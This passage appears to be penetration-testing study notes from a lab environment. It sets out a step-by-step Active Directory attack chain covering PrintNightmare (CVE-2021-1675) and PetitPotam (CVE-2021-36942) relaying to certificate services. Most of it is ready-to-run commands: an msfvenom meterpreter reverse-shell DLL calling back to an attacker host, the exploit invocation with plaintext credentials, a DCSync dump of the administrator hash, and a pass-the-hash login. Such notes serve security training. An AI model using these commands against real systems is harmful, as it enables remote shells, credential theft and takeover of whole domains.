 Generate a DLL payload 
```shell
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
Transfer the file across
Start Multi handler
```shell
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 
```

### PetitPotam  (MS-EFSRPC)
#### Description 
[CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)
LSA Spoofing Vuln that was patched in August 2021
Allows unautenticated attacker to trick a DC to authenticate against another NTLM over port 445 via [LSARPC](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc)

[Blog post](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)

#### Running the exploit
Starting ntlmmrelayx.py
*Need to specify the web enrolment ID for the CA*
Use [Certi](https://github.com/zer1t0/certi) if needed
```shell
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

In another window Run [petiPotam](https://github.com/topotam/PetitPotam)

```shell
python3 PetitPotam.py 172.16.5.225 172.16.5.5     
```
Can run from mimikatz
```cmd
misc::efs /server:<Domain Controller> /connect:<ATTACK HOST>
```
Catch the Base64 Encoded Certificate 
```shell-session
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIIStQIBAzCCEn8GCSqGSIb3DQEHAaCCEnAEghJsMII<snip>70+e0p2GZNVZDXlrwQIyr7YCKBdGmY=
[*] Skipping user ACADEMY-EA-DC01$ since attack was already performed
```

Request a TGT using gettgtpkinit.py 
```shell-session
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
Set the KRB5CCNAME Variable 
```shell
export KRB5CCNAME=dc01.ccache
```
Use DC TGT to DCSync
```shell
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
or 
```shell
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
Confirm Admin Access
```shell
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```